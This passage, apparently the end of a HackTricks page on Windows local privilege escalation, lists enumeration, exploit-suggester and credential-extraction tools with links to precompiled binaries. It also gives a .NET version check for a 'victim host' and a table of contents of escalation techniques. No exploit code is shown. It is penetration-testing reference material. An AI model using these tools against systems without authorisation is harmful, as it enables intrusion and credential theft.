​[**Watson**](https://github.com/rasta-mouse/Watson)**  **-- Search for known privesc vulnerabilities (needs to be compiled using VisualStudio) ([**precompiled**](https://github.com/carlospolop/winPE/tree/master/binaries/watson))[**SeatBelt**](https://github.com/GhostPack/Seatbelt)**  **-- Enumerates the host searching for misconfigurations (more a gather info tool than privesc) (needs to be compiled)** (**[**precompiled**](https://github.com/carlospolop/winPE/tree/master/binaries/seatbelt)**)**[**LaZagne**](https://github.com/AlessandroZ/LaZagne)**  **-- Extracts credentials from lots of softwares (precompiled exe in github)[<s>**Beroot**</s>](https://github.com/AlessandroZ/BeRoot)<s>**  **</s>-- Check for misconfiguration (executable precompiled in github). Not recommended. It does not works well in Win10.[**<s>Windows-Privesc-Check</s>**](https://github.com/pentestmonkey/windows-privesc-check) -- Check for possible misconfigurations (exe from python). Not recommended. It does not works well in Win10.

###

Bat

**​**[**winPEASbat **](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)-- Tool created based in this post (it does not need accesschk to work properly but it can use it).

###

Local

​[**Windows-Exploit-Suggester**](https://github.com/GDSSecurity/Windows-Exploit-Suggester) -- Reads the output of **systeminfo** and recommends working exploits (local python)[**Windows Exploit Suggester Next Generation**](https://github.com/bitsadmin/wesng) -- Reads the output of **systeminfo** andrecommends working exploits (local python)

###

Meterpreter

*multi/recon/local_exploit_suggestor*

You have to compile the project using the correct version of .NET ([see this](https://rastamouse.me/2018/09/a-lesson-in-.net-framework-versions/)). To see the installed version of .NET on the victim host you can do:

Copy

C:\Windows\microsoft.net\framework\v4.0.30319\MSBuild.exe -version #Compile the code with the version given in "Build Engine version" line

#

Bibliography

​http://www.fuzzysecurity.com/tutorials/16.htmlhttp://www.greyhathacker.net/?p=738http://it-ovid.blogspot.com/2012/02/windows-privilege-escalation.htmlhttps://github.com/sagishahar/lpeworkshophttps://www.youtube.com/watch?v=_8xJaaQlpBohttps://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.htmlhttps://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.mdhttps://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.mdhttps://github.com/frizb/Windows-Privilege-Escalationhttps://pentest.blog/windows-privilege-escalation-methods-for-pentesters/https://github.com/frizb/Windows-Privilege-Escalationhttp://it-ovid.blogspot.com/2012/02/windows-privilege-escalation.html​

[ Windows - Previous Checklist - Local Windows Privilege Escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)[ Next  Dll Hijacking   ](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking)

Bea Gil

CPol
Last updated 1 week ago

 [![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='currentColor' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 438.549 438.549' stroke='none' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='8001'%3e%3cg data-evernote-id='8002' class='js-evernote-checked'%3e%3cpath d='M409.132 114.573c-19.608-33.596-46.205-60.194-79.798-79.8-33.598-19.607-70.277-29.408-110.063-29.408-39.781 0-76.472 9.804-110.063 29.408-33.596 19.605-60.192 46.204-79.8 79.8C9.803 148.168 0 184.854 0 224.63c0 47.78 13.94 90.745 41.827 128.906 27.884 38.164 63.906 64.572 108.063 79.227 5.14.954 8.945.283 11.419-1.996 2.475-2.282 3.711-5.14 3.711-8.562 0-.571-.049-5.708-.144-15.417a2549.81 2549.81 0 0 1-.144-25.406l-6.567 1.136c-4.187.767-9.469 1.092-15.846 1-6.374-.089-12.991-.757-19.842-1.999-6.854-1.231-13.229-4.086-19.13-8.559-5.898-4.473-10.085-10.328-12.56-17.556l-2.855-6.57c-1.903-4.374-4.899-9.233-8.992-14.559-4.093-5.331-8.232-8.945-12.419-10.848l-1.999-1.431c-1.332-.951-2.568-2.098-3.711-3.429-1.142-1.331-1.997-2.663-2.568-3.997-.572-1.335-.098-2.43 1.427-3.289 1.525-.859 4.281-1.276 8.28-1.276l5.708.853c3.807.763 8.516 3.042 14.133 6.851 5.614 3.806 10.229 8.754 13.846 14.842 4.38 7.806 9.657 13.754 15.846 17.847 6.184 4.093 12.419 6.136 18.699 6.136 6.28 0 11.704-.476 16.274-1.423 4.565-.952 8.848-2.383 12.847-4.285 1.713-12.758 6.377-22.559 13.988-29.41-10.848-1.14-20.601-2.857-29.264-5.14-8.658-2.286-17.605-5.996-26.835-11.14-9.235-5.137-16.896-11.516-22.985-19.126-6.09-7.614-11.088-17.61-14.987-29.979-3.901-12.374-5.852-26.648-5.852-42.826 0-23.035 7.52-42.637 22.557-58.817-7.044-17.318-6.379-36.732 1.997-58.24 5.52-1.715 13.706-.428 24.554 3.853 10.85 4.283 18.794 7.952 23.84 10.994 5.046 3.041 9.089 5.618 12.135 7.708 17.705-4.947 35.976-7.421 54.818-7.421s37.117 2.474 54.823 7.421l10.849-6.849c7.419-4.57 16.18-8.758 26.262-12.565 10.088-3.805 17.802-4.853 23.134-3.138 8.562 21.509 9.325 40.922 2.279 58.24 15.036 16.18 22.559 35.787 22.559 58.817 0 16.178-1.958 30.497-5.853 42.966-3.9 12.471-8.941 22.457-15.125 29.979-6.191 7.521-13.901 13.85-23.131 18.986-9.232 5.14-18.182 8.85-26.84 11.136-8.662 2.286-18.415 4.004-29.263 5.146 9.894 8.562 14.842 22.077 14.842 40.539v60.237c0 3.422 1.19 6.279 3.572 8.562 2.379 2.279 6.136 2.95 11.276 1.995 44.163-14.653 80.185-41.062 108.068-79.226 27.88-38.161 41.825-81.126 41.825-128.906-.01-39.771-9.818-76.454-29.414-110.049z' data-evernote-id='8003' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e) Edit on GitHub](https://github.com/carlospolop/hacktricks/blob/master/windows/windows-local-privilege-escalation/README.md)

Contents

[Best tool to look for Windows local privilege escalation vectors: WinPEAS](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#best-tool-to-look-for-windows-local-privilege-escalation-vectors-winpeas)[Windows version exploits](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#windows-version-exploits)[Vulnerable Drivers](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#vulnerable-drivers)[Enumeration](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#enumeration)[Environment](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#environment)[LAPS](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#laps)[Audit Settings](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#audit-settings)[WEF](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wef)[AV](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#av)[Users & Groups](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#users-and-groups)[Get the content of the clipboard](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#get-the-content-of-the-clipboard)[Token manipulation](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#token-manipulation)[SeImpersonatePrivilege (3.1.1)](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#seimpersonateprivilege-3-1-1)[SeAssignPrimaryPrivilege (3.1.2)](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#seassignprimaryprivilege-3-1-2)[SeTcbPrivilege (3.1.3)](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#setcbprivilege-3-1-3)[SeBackupPrivilege (3.1.4)](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#sebackupprivilege-3-1-4)[SeRestorePrivilege (3.1.5)](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#serestoreprivilege-3-1-5)[SeCreateTokenPrivilege (3.1.6)](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#secreatetokenprivilege-3-1-6)[SeLoadDriverPrivilege (3.1.7)](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#seloaddriverprivilege-3-1-7)[SeTakeOwnershipPrivilege (3.1.8)](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#setakeownershipprivilege-3-1-8)[SeDebugPrivilege (3.1.9)](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#sedebugprivilege-3-1-9)[Check privileges](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#check-privileges)[Network](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#network)[Software](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#software)[Run at startup](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#run-at-startup)[Running processes](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#running-processes)[Memory Password mining](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#memory-password-mining)[Services](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services)[Permissions](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#permissions)[Enable service](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#enable-service)[Modify service binary path](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#modify-service-binary-path)[Restart service](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#restart-service)[Services binaries weak permissions](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services-binaries-weak-permissions)[Services registry permissions](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services-registry-permissions)[Unquoted Service Paths](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#unquoted-service-paths)[DLL Hijacking](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dll-hijacking)[Credentials](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials)[MSF-Credentials Plugin](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#msf-credentials-plugin)[Credentials manager / Windows vault](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-manager-windows-vault)[DPAPI](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dpapi)[Wifi](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wifi)[AppCmd.exe](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#appcmd-exe)[SSH keys in registry](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#ssh-keys-in-registry)[SCClient / SCCM](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#scclient-sccm)[Remote Desktop Credential Manager](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#remote-desktop-credential-manager)[Ask for credentials](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#ask-for-credentials)[Common files with credentials](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#common-files-with-credentials)[More possible files with credentials](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#more-possible-files-with-credentials)[Inside the registry](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#inside-the-registry)[Browsers History](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#browsers-history)[AlwaysInstallElevated](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated)[Metasploit payloads](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#metasploit-payloads)[MSI Wrapper](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#msi-wrapper)[MSI Installation](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#msi-installation)[WSUS](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wsus)[Write Permissions](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#write-permissions)[Leaked Handlers](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#leaked-handlers)[Named Pipe Client Impersonation](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#named-pipe-client-impersonation)[From Administrator Medium to High Integrity Level / UAC Bypass](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#from-administrator-medium-to-high-integrity-level-uac-bypass)[From High Integrity to System](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#from-high-integrity-to-system)[New service](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#new-service)[AlwaysInstallElevated](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated-1)[From SeDebug + SeImpersonate to Full Token privileges](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#from-sedebug-seimpersonate-to-full-token-privileges)[Named Pipes](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#named-pipes)[Dll Hijacking](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dll-hijacking-1)[More help](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#more-help)[Useful tools](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#useful-tools)[Bibliography](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#bibliography)